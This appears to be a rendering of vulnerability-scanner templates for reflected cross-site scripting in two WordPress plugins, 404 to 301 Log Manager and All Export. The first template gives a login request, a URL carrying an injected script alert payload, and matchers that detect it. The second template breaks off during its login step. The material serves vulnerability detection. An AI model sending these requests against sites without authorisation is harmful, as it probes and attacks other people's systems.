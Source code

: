 # WordPress 404 to 301 Log Manager \<3.1.2 - Cross-Site Scripting
## Description
- WordPress 404 to 301 Log Manager 3.1.2 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wpscan,wp-plugin,xss,wp,wordpress,authenticated
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=jj4t3-logs&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(1)\</script>
    2. 404 Error Logs
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress All Export \<1.3.6 - Cross-Site Scripting
## Description
- WordPress All Export plugin before version 1.3.6 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
```